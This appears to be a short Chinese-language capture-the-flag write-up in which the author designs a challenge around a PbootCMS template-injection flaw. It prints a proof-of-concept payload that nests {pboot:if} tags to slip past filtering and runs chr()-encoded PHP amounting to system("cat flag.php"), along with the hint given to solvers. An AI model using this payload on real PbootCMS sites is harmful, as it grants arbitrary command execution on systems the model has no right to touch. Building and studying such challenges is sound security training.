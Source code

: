 ![flag2_php_212](../img/flag2_php_212.jpg)

因此利用这一内容设计 Flag ，编写 POC 如下：

[ascii码对照表](https://wenku.baidu.com/view/de4c332c453610661ed9f474.html) 和 [进制转换器](https://jisuan5.com/hexadecimal/?hex=10)

```shell
{pbootpbootpboot:if:if:if((eval ( chr (0x73).chr (0x79).chr (0x73).chr (0x74).chr (0x65).chr (0x6d).chr (0x28).chr (0x22).chr (0x63).chr (0x61).chr (0x74).chr (0x20).chr (0x66).chr (0x6c).chr (0x61).chr (0x67).chr (0x2e).chr (0x70).chr (0x68).chr (0x70).chr (0x22).chr (0x29).chr (0x3b))))}!!!{/pbootpbootpboot:if:if:if}
```

即执行命令`system("cat flag.php");`

**提供给解题人的线索为： pbootpbootpboot:if:if:if  **

![bug2_build_213](../img/bug2_build_213.jpg)
